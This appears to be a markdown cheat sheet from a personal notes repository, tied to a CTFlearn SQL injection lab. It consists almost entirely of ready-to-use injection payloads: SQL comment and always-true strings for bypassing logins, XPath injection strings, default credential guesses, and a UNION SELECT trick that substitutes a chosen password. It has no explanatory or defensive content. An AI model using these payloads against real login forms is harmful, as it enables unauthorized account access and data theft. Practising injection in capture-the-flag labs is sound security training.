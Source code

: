 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
admin';
ad'||'min'; // Concatenation operator : Concatenates and then terminates
```
```sql
" or 1=1 -- 
" OR 1=1 --
```

#### Sometimes some particular special characters are filtered and '*' or '&' may work so try every characters once as a test.

```sql
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
